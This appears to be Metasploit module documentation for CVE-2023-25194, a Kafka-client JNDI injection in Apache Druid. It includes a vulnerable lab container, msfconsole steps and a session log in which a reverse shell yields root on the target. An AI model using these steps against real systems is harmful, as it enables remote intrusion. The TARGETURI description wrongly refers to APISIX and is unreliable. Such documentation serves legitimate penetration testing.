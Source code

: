 ## Vulnerable Application

Apache Kafka is an open-source distributed event streaming platform that is used for real-time data streaming and processing.
Kafka clients are a set of Java libraries that allow you to produce and consume messages from Apache Kafka.

In the version prior to 3.3.2, there is a JNDI injection issue in the Apache Kafka clients if an attacker is able to set the
`sasl.jaas.config` property for any of the connector's Kafka clients to `com.sun.security.auth.module.JndiLoginModule`.
It will allow the server to connect to the attacker's LDAP server and deserialize the LDAP response, which the attacker can
use to execute java deserialization gadget chains on the Kafka connect server. Attacker can cause unrestricted deserialization
of untrusted data (or) RCE vulnerability when there are gadgets in the classpath.

As Apache Druid depends on kafka-clients to connect to one of its data sources, making it out of the box vulnerable if using any
affected version.

The below docker compose file can be used to build a vulnerable container.

```yaml
version: '2'
services:
 web:
   image: vulhub/apache-druid:25.0.0
   ports:
    - "8888:8888"
```


## Verification Steps

Metasploit:

1. `./msfconsole`
1. `use exploit/multi/http/apache_druid_cve_2023_25194`
1. `set rhosts <rhost>`
1. `set target <target>`
1. `set srvhost <srvhost>`
1. `set SSL <true or false>`
1. `run`

## Scenarios

### Apache Kafka-clients 3.3.1 on Druid version 25.0.0

```
msf6 exploit(multi/http/apache_druid_cve_2023_25194) > exploit 

[*] Started reverse TCP handler on 172.18.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to trigger the jndi callback...
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Client sent unbind request
[*] Server stopped.
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.18.0.2:42908) at 2023-06-22 13:33:01 +0200

meterpreter > sysinfo
Computer     : 72fc9c4031a6
OS           : Linux 6.1.11-1-MANJARO #1 SMP PREEMPT_DYNAMIC Thu Feb  9 14:03:23 UTC 2023
Architecture : x64
Meterpreter  : python/linux
meterpreter > shell
Process 1112 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
find /opt/druid/extensions/druid-kafka-indexing-service/ -iname "kafka-clients*"
/opt/druid/extensions/druid-kafka-indexing-service/kafka-clients-3.3.1.jar
^C
Terminate channel 1? [y/N]  y
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 127.0.0.1 - Meterpreter session 1 closed.  Reason: User exit
```

## Options

### TARGETURI (required)

The path to the APISIX routes controller (Default: `/`).
